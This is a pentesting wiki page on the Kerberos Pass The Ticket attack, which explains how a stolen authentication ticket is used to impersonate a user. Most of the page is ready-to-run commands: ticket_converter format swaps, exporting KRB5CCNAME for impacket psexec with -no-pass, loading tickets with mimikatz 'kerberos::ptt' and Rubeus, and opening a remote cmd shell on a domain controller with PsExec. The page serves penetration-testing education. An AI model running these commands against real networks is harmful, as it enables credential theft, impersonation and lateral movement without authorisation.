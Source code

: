 # Pass the Ticket


## Pass The Ticket (PTT)

In the **Pass The Ticket (PTT)** attack method, attackers **steal a user's authentication ticket** instead of their password or hash values. This stolen ticket is then used to **impersonate the user**, gaining unauthorized access to resources and services within a network.

**Read**:

- [[../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows.md|Harvesting tickets from Windows]]
- [[../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-linux.md|Harvesting tickets from Linux]]

### **Swaping Linux and Windows tickets between platforms**

The [[https://github.com/Zer1t0/ticket_converter|**ticket_converter**]] tool converts ticket formats using just the ticket itself and an output file.

```bash
python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi

python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```
```
In Windows [[https://github.com/gentilkiwi/kekeo|Kekeo]] can be used.

### Pass The Ticket Attack

```bash:Linux
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```
```
```bash:Windows
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi"
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi
klist #List tickets in cache to cehck that mimikatz has loaded the ticket
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```
```
## References

- [[https://www.tarlogic.com/blog/how-to-attack-kerberos/|https://www.tarlogic.com/blog/how-to-attack-kerberos/]]



